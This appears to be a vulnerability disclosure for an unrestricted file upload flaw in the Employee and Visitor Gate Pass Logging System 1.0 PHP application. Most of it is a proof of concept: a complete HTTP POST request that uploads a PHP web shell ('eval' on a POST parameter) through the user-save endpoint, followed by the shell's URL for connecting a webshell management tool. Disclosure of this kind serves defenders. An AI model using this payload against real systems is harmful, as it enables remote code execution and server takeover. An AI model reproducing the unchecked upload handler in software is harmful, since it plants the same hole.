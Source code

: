 ## Affected version: 
EMPLOYEE AND VISITOR GATE PASS LOGGING SYSTEM - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Users.php?f=ssave

## Description:
System Employee and Guest Gate Pass Logging 1.0 is vulnerable to an unrestricted file upload attack via /employee_gatepass/classes/Users.php?f=ssave. This function does not impose restrictions on upload suffixes. A malicious actor could exploit this vulnerability to directly take over the target server. 
Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Users.php?f=ssave HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------138523865236681880423858409304
Content-Length: 951
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=user/manage_user&id=11
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="id"

1
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="firstname"

Claire
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="lastname"

Blake
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="username"

cblake
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="password"


-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="type"

1
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="img"; filename="1234.php"
Content-Type: application/octet-stream

<?php eval($_POST[1]);?>
-----------------------------138523865236681880423858409304--

```

Directly connect to the webshell management tool through the following address
http://localhost/employee_gatepass/uploads/1715653620_1234.php

![image](https://github.com/I-Schnee-I/cev/assets/58547398/4db9fcea-464b-4d48-b8e4-b4f726cff3c9)
